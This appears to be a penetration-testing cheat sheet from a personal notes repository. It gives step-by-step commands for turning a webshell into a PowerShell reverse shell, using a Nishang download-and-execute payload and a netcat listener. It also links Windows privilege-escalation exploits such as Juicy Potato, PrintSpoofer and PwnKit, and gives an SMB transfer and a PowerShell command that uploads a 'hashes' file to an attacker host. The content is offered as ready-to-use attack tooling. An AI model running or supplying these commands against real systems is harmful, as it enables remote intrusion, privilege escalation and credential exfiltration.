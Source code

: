 ### Webshell to reverse shell with powershell
```
From Webshell, it’s time to get an interactive shell. I’ll go with my Windows stand-by, Nishang Invoke-PowerShellTcp.ps1.

Make a copy of it in the local directory.
Add a line to the end: Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 443
Start python3 -m http.server 80 in that same directory
Start nc -lnvp 443
Visit: http://10.10.10.116/upload/0xdf.asp?cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.15/Invoke-PowerShellTcp.ps1%27)
``` 

### Windows PrivEsc
[Windows PrivEsc Tokens SEImpersonate SEAssign whoami /priv](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

[living off the land binaries lolbas](https://lolbas-project.github.io/)

[Privilege Escalation with Potato](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

[CVE-2021-4034 PKexec Polkit](https://github.com/arthepsy/CVE-2021-4034)

[Ghostpack binaries - sharpup seatbelt rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

[Windows PrivEsc DLL Injection w/ MSFVenom](abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/)

[Rotten Potato – Privilege Escalation from Service Accounts to SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

[Rotten Potato Binary download](https://github.com/breenmachine/RottenPotatoNG)

[Windows PrivEsc For Windows 10 1809 or higher](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

[PrintSpoofer Windows PrivEsc < Win10 1809](https://github.com/itm4n/PrintSpoofer)

[Juicy Potato](https://github.com/ohpe/juicy-potato)

[Juicy Potato x86](https://github.com/ivanitlearning/Juicy-Potato-x86)


--------------------------------------------
# File Transfers 

### Start SMB Server
`smbserer.py -smb2support [SHARE_NAME] [SHARE_PATH]`
`smbserver.py -smb2support a .`
`copy \\10.10.14.15\a\file` 

### Powershell to upload to Kali
`powershell (​New​-​Object System​.​Net​.​WebClient​)​.​UploadFile​(​'http://192.168.119.143/upload.php'​, 'C:\Tools\active_directory\hashes'​)`
